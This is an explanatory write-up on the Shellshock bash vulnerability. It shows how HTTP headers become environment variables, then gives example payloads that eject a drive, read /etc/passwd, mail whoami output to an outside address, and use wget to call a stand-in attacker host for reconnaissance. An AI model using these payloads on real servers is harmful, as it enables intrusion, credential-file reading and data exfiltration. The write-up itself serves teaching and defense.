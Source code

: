 
```sh
GET / HTTP/1.1
Accept-Encoding: gzip,deflate,sdch
Accept-Language: en-US,en;q=0.8,fr;q=0.6
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Host: cloudflare.com
```

At times this information can be turned into variables so that the web server can examine them. The server becomes vulnerable when these variables get are passed into the shell called "bash" leading to the Shellshock attack. 

```sh
HTTP_ACCEPT_ENCODING=gzip,deflate,sdch
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.8,fr;q=0.6
HTTP_CACHE_CONTROL=no-cache
HTTP_PRAGMA=no-cache
HTTP_USER_AGENT=Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
HTTP_HOST=cloudflare.com
```
The Shellshock attack occurs when an attacker modifies the origin HTTP request to contain the magic () { :; }; string. HTTP_USER_AGENT= is appended by this string along the bin/eject command. When variable gets passed into bash by the web server, the Shellshock exploit happens. The variable http user agent will be interpreted as command that needs to be executed by bash and which in this case is bin/eject. This cause the CD or DVD drive to eject.

    HTTP_USER_AGENT=() { :; }; /bin/eject

### Extract Private Information 
Using the /etc/passwd command, the attacker is able to read and access the password file. This file then gets added to the response from the web server and is returned in the form of a webpage. 

    () {:;}; /bin/cat /etc/passwd

The following command allows the attacker to email private information to themselves. The whoami command tells what the name of the user is and in case if the user is root, that can work in the attackers favour as they can exploit the system further. The username and the name of the website are sent in email where attacker is able to access the information of vulnerable sites. 

    () { :;}; /bin/bash -c \"whoami | mail -s 'example.com l' xxxxxxxxxxxxxxxx@gmail.com
### Reconnaissance Attacks
One of the most common Shellshock attacks are reconnaissance attacks. The attacker uses a command to send a message to third party machine asking for list of vulnerable machines. The attacker makes the web server download a webpage, and then uses its web server logs to see which sites and machines are vulnerable. 

    () {:;}; /usr/bin/wget http://attacker-controlled.com/ZXhhbXBsZS5jb21TaGVsbFNob2NrU2FsdA== >> /dev/null

The string below is a base64 encoded string which actually lets the attacker know that example.com is vulnerable. This allows the attacker to exploit the website further.

